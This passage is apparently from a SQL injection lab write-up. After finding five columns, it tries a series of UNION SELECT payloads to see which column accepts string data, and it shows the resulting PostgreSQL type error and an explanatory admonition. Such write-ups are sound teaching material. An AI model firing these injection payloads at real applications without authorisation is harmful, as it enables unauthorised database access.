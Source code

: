 
- Now, we just found `5 columns` 
- The next payload gonna be using `UNION SELECT` 
- `Place string into each column.`
- This is what I'm gonna try:
	- `' UNION SELECT 'a',NULL,NULL,NULL,NULL--`
	- `' UNION SELECT NULL,'a',NULL,NULL,NULL--`
	- `' UNION SELECT NULL,NULL,'a',NULL,NULL--`
	- `' UNION SELECT NULL,NULL,NULL,'a',NULL--`
	- `' UNION SELECT NULL,NULL,NULL,NULL,'a'--`


- Well, we've found an error at the first column that state:
	- `ERROR:  invalid input syntax for integer: "a"
LINE 1: ...ect \* from cars where name ilike '%' UNION SELECT 'a',NULL,N...`

![SQLi union select](13.png "SQLi union select")

{{< admonition warning "Info" >}}
If the data type of a column is not compatible with string data, the injected query will cause a database error, such as: </br>
`Conversion failed when converting the varchar value 'a' to data type int.`
{{< /admonition >}}
